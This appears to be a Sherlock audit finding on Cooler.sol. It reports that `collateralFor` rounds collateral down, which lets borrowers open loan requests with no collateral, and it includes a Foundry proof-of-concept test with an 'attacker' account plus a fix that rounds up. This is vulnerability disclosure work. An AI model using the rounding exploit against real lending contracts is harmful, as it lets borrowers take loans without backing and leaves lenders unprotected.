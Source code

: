 Allarious

high

# `collateralFor` does not calculate the collateral correctly.

## Summary
`collateralFor` does not calculate the collateral amount correctly, effecting the `Cooler.sol` flow to go unexpectedly.

## Vulnerability Detail
`collateralFor` is the function that takes in the `amount` requested for loan, and the `loanToCollateral` ratio with 18 decimal points. The given formula:
```solidity
    function collateralFor(uint256 amount, uint256 loanToCollateral) public pure returns (uint256) {
        return amount * decimals / loanToCollateral;
    }
```
Rounds the collateral needed down while it should round it up. There are several lines of codes effected which can cause the lender to not the the collateral back. All of the bugs caused below can get exaggerated in two cases:

* If the price difference between the two tokens is high, this can boost the value of `loanToCollateral` value higher (e.g. Collateral token is 1e10 times Debt token)
* If the decimal points of the two tokens is different than 1e18 (e.g. USDC)

Borrowers can submit requests with a non-zero `amount` requested and a non-zero `loanToCollateral` while not providing any collateralization to the system. if the amount requested is less than `loanToCollateral/1e18`, no collateral is needed which should not be allowed. if the amount if bigger than the said amount, it will be rounded down to the closest multiplication of it.

if the interest rate calculated in the clear function is less than `loanToCollateral/1e18` there is a chance that the borrower does not need to add any collateral to roll the loan. This happens if `collateralFor(amount) == collateralFor(amount + interest) due to rounding down.

## Impact
lines of code impacted:
https://github.com/sherlock-audit/2023-01-cooler/blob/main/src/Cooler.sol#L85
https://github.com/sherlock-audit/2023-01-cooler/blob/main/src/Cooler.sol#L102
https://github.com/sherlock-audit/2023-01-cooler/blob/main/src/Cooler.sol#L139
https://github.com/sherlock-audit/2023-01-cooler/blob/main/src/Cooler.sol#L172
https://github.com/sherlock-audit/2023-01-cooler/blob/main/src/Cooler.sol#L236-L238

## Code Snippet
```solidity
contract CollateralForTests is Test {
    ERC20 public token1;
    ERC20 public token2;

    CoolerFactory public factory;
    Cooler public cooler;

    address public victim;
    address public attacker;

    uint256 ATTACKER_INITIAL_BALANCE = 10000 ether;

    function setUp() public {
        victim = vm.addr(1);
        attacker = vm.addr(2);

        token1 = new ERC20("token1", "TK1"); // Collateral
        token2 = new ERC20("token2", "TK2"); // Debt

        token1.mint(attacker, ATTACKER_INITIAL_BALANCE);
        token2.mint(attacker, ATTACKER_INITIAL_BALANCE);

        factory = new CoolerFactory();
        cooler = Cooler(factory.generate(token1, token2));
    }

    function testCollateralFor() public {
        //  collateralFor(Amount, loanToCollateral)
        // As long as loanToCollateral/1e18 is bigger than amount
        // the output of the funciton would be equal to zero
        assertEq(cooler.collateralFor(1, 1.1e18), 0);
    }

    function testRequestWithZeroCollateral() public {
        // Since collateralFor can act buggy the the loanToCollateral/1e18 ratio
        // is higher than amout requested, it is possible for someone to create
        // a request with a non-zero loanToCollateral and non-zero amount requested
        // and zero collateral invested

        // Lets say we have two tokens named smallToken and bigToken. And we know that one smallToken trades 1e11 for each bigToken
        // We set the loanToCollateral 1e28 which means we put a single wETH (1 wei) for a 1e10 smallTokens loan, 10 times the actuall price of the token
        // Both smallToken and bigToken have decimal points of 1e18
        uint256 loanToCollateral = 1e28;
        // token1 -> bigToken
        // token2 -> smallToken
        vm.startPrank(attacker);        
        cooler.request(1e10 - 1, 1e17, loanToCollateral, 10 days);
        assertEq(token1.balanceOf(attacker), ATTACKER_INITIAL_BALANCE); // Attacker has the full balacne even after a request

        token1.approve(address(cooler), 1); // bigToken approve for a single ether
        
        cooler.request(1e10, 1e17, loanToCollateral, 10 days);

        vm.expectRevert();
        cooler.request(1e10, 1e17, loanToCollateral, 10 days); // cannot move any more 1e10 smallToken since we do not have more allowance of bigToken

        cooler.request(1e10 - 1, 1e17, loanToCollateral, 10 days); // can still move 1e10 - 1 smalltoken without collateralizing smallToken

        assertEq(token1.balanceOf(attacker), ATTACKER_INITIAL_BALANCE - 1); // Only the second request needed a collateral
        vm.stopPrank();
    }
}
```
## Tool used

Manual Review

## Recommendation
The function can mitigate these bugs by rounding up, also there is room for some extra sanity checks to see if enough collateral is available in the pool to guarantee the funds.
It is possible for the lender to check the pair by running the `collateralFor` function to see if there is enough collateral to invest, but the contract should put in some safety measures as well.